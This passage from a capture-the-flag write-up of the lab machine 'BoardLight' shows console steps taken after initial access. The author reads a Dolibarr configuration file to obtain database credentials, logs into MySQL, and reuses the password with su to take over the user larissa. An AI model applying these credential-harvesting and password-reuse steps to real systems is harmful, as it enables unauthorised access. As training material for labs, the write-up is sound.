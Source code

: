 Now I need to find a way to PE or get access as the admin user, `larissa`.

```console
www-data@boardlight:/dev/shm$ netstat -lnpt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
```

Found database credentials:

```console
www-data@boardlight:~/html/crm.board.htb$ cat htdocs/conf/conf.php
<?php
...
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
...
```

```console
www-data@boardlight:~/html/crm.board.htb$ mysql -u dolibarrowner -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 705
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)
Copyright (c) 2000, 2024, Oracle and/or its affiliates.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql>
```

I found user hashes but they look like bcrypt/Blowfish hashes, which are very slow to crack. I connected to the other MariaDB instance on port 33060, but the hashes are the same.

I realized way too late that the previously discovered password `serverfun2$2023!!` also works for the user `larissa`:

```console
www-data@boardlight:/dev/shm/$ su - larissa
Password:
larissa@boardlight:~$ cat user.txt
09148f...
```

## PE
